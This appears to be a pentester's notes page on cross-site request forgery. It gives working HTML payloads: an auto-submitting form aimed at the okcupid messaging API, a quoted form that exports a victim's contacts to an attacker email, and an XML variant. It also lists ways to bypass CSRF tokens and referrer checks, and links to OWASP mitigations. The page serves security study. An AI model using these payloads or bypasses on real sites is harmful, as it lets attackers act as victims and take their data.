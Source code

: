 ```yaml
---
description: Making a request on the user's behalf.
---
```


# Cross Site Request Forgery (CSRF)

## Overview

If a website automatically sends a user's credentials when you interact with it (cookies are sent automatically), then CSRF can be used to impersonate the user (assuming the website doesn't do anything to prevent it).

## Common CSRF Payloads

Different types of endpoints require different techniques:

* POST
* GET
* DELETE/UPDATE
* JSON endpoint
* XML endpoint

### POST

Make a POST form with hidden inputs and use JavaScript to send the POST request automatically when the user navigates to the page.

### GET

Make an image with zero width and length and `src=`t`he_csrf_Link`. The GET request is made automatically when the browser tries to load the image.

### PUT/DELETE

This one is very difficult. Can only be accomplished with like browser plugins/plugin vulns and stuff.

### JSON

You can try to do a CSRF request to a JSON API endpoint.

[https://blog.azuki.vip/csrf/](https://blog.azuki.vip/csrf/)\


**Caveats **(as of august 2021):

* The server must not require** content-type: application/json** in the headers. The method results in a request with a **content-type: text/plain**  header
* This method results in one of the fields in the JSON request being `"foo":"="`. In other words, the server must not deny the request because of an **unexpected field**, or an **expected field with the value** `=`
* The SameSite cookie attribute must not be Strict
  * It defaults to **Lax **on browsers
  * In Firefox, it always works when SameSite has not been set
    * Haven’t tested when SameSite has been explicitly set to Lax
  * In Chrome, it works when SameSite has not been set
    * But only for **two minutes**, starting from the time the cookie was assigned to the user
    * Probably won’t work if SameSite has been explicitly set to Lax





Sample payload from the article. Sends a JSON request to the okcupid API:

```
<html>  
 <body>  
   <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain"\>  
     <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop\_global", "service":"other"}'\>  
     <input type="submit" value="Click me"\>  
   </form>  
   <script>  
     window.onload = () => {form.submit()}  
   </script>  
 </body>  
</html>
```

Zseano also talked about it in his [blog article](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html). Here's his payload (but his is **older**):

```
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="{"params":{"limit":20,"and":false,"filters":[],"excluded_contacts":[]},"fields":["First Name","Last Name","Email Address","Title","Notes","Organization","Street","City","State","Tags","Zip Code","Phone Number","Gender","Event ID","Event Title","VIP","Twitter Handle","Twitter URL","Twitter Followers","Twitter Following","Facebook Name","Facebook URL","Facebook Friends","Instagram Handle","Instagram URL","Instagram Followers","Instagram Following","Website","Date Added","Unsubscribed"],"recipient":"myemail+2" value='@gmail.com'>
         <input type="submit" value="submit"> </form>
     </body>
  </html>
  
```

### XML

From Zseano's [blog](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html):

```
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="<foo> <html xmlns:html='http://www.w3.org/1999/xhtml'> <html:script>alert(1);</html:script> </html> </foo>">
         <input type="submit" value="submit"> </form>
     </body>
  </html>
```

## Login CSRF

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#login-csrf" %}

Many developers tend to ignore CSRF vulnerabilities on login forms. They assume that CSRF would not be applicable on login forms because the user is not authenticated at that stage. However, CSRF vulnerabilities can still occur on login forms where the user is not authenticated, but the impact and risk is different.

For example, if an attacker uses CSRF to authenticate a victim on a shopping website using the attacker's account, and the victim then enters their credit card information, an attacker may be able to purchase items using the victim's stored card details

## Mitigations

OWASP Prevention Cheat Sheet

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html" %}

## Mitigation Bypasses

#### CSRF Tokens

If an anti-CSRF token is added, you can bypass it with:

* XSS
* Steal the CSRF token (using CSS injection, for example)
* Clickjacking
  * If you can fill in the data you want for them, and then clickjack them into hitting “submit” (through an iframe), then you can make a request on their behalf
* CSRF token misconfigurations
  * Try a blank csrf token
  * Try to see if accounts can share the same CSRF token. Make 2 accounts and see if the same token works for both.
  * Change one character in the token, maybe it only checks length or something.

#### Referrer Header Checking



If the Referrer header is checked, then you can try a few things: &#x20;

1. If `site.com/csrf` checks that "site.com" is in the string, you can send the query from `malicious.com/site.com` or `site.com.malicious.com `.
2. Send a blank referrer header and see if that works
3. Use XSS (like reflected XSS) to achieve the goal.





